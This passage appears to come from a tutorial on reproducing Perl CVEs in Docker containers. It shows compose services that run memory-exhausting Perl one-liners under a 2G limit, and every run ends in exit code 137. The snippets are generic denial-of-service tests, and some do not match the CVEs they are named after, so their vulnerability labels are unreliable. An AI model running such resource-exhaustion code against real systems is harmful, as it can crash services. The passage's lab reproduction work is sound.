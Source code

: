 ```bash
    container_name: cve-2023-31486
    image: perl:5.32.1
    command:
      - perl
      - -e
      - |
        my @arr = (1..1_000_000_000);
        @arr = reverse @arr;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  cve-2023-47038:
    container_name: cve-2023-47038
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        my $$data = "A" x (2**31);
        my @unpacked = unpack("Z*", $$data);
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

Time to build the containers and re-create the known `CVEs`:

<br>

```bash
$ docker-compose run --rm cve-2018-18311
Creating perl-cve_cve-2018-18311_run ... done
ERROR: 137
$ docker-compose run --rm cve-2023-31486
Creating perl-cve_cve-2023-31486_run ... done
ERROR: 137
$ docker-compose run --rm cve-2023-47038
Creating perl-cve_cve-2023-47038_run ... done
ERROR: 137
```

<br>

In `Linux`, when a process is terminated by a signal, its exit code is computed as:

<br>
